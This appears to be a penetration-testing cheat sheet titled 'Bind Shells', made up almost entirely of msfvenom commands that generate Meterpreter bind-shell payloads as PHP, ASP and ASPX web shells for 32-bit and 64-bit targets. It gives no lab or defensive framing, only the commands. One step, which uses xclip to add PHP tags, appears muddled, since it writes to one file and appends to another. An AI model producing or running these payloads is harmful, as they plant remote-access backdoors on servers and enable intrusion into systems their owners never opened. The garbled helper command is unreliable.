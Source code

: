 # Bind Shells

## PHP

PHP meterpreter bind callback shell

```
$ msfvenom -p php/meterpreter_bind_tcp lport=<PORT> -f raw > met.php
```

After generating the PHP meterpreter bind callback shell include the tags to ensure execution.

```
$ xclip -selection clipboard met.php && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> met.php
```

## ASP

- x86 (32-bit) Payloads

```
$ msfvenom -p windows/meterpreter_bind_tcp lport=<PORT> -f asp -o met-x86.asp
```

- x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/meterpreter_bind_tcp lport=<PORT> -f asp -o met-x64.asp
```

## ASPX

- x86 (32-bit) Payloads

```
$ msfvenom -p windows/meterpreter_bind_tcp lport=<PORT> -f aspx -o met-x86.aspx
```

- x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/meterpreter_bind_tcp lport=<PORT> -f aspx -o met-x64.aspx
```